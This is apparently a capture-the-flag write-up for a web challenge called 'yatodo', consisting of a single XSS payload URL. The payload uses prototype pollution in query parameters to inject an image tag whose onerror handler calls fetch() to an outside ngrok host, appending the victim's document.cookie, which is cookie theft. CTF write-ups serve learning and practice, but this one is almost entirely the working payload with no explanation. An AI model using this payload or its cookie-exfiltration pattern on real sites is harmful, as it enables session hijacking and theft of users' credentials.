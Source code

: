 # yatodo

## Write-up

- XSS Payload: `http://yatodo.chal.ctf.gdgalgiers.com/?settings[__proto__]=__proto__&settings[__proto__]=$$inject&settings[__proto__]=xss&settings[__proto__]=<img src onerror=fetch('http://8dfc-197-118-147-239.ngrok.io/'.concat(document.cookie)).then().catch()></img>`.

